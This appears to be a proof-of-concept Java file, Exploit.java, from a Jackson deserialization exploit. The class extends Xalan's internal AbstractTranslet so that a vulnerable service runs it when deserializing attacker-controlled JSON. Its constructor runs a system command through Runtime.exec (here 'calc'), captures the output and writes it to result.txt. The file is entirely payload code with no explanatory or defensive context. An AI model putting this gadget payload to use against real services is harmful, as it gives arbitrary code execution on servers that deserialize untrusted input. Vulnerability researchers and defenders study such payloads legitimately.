 Exploit.java

```plain
package jackson;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.*;

public class Exploit extends AbstractTranslet {
    public Exploit() throws Exception {

        try {
            BufferedReader br = null;

            Process p = Runtime.getRuntime().exec("calc");
            br = new BufferedReader(new InputStreamReader(p.getInputStream()));

            String line = null;
            StringBuilder sb = new StringBuilder();
            while ((line = br.readLine()) != null) {
                sb.append(line + "\n");
                System.out.println(sb);
            }
            File file = new File("result.txt");

            if(!file.exists()){
                file.createNewFile();
            }


            FileWriter fileWritter = new FileWriter(file.getName(),true);
            BufferedWriter bufferWritter = new BufferedWriter(fileWritter);
            bufferWritter.write(sb.toString());
            bufferWritter.close();
            System.out.println(sb);
        } catch (IOException e) {
            e.printStackTrace();

        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

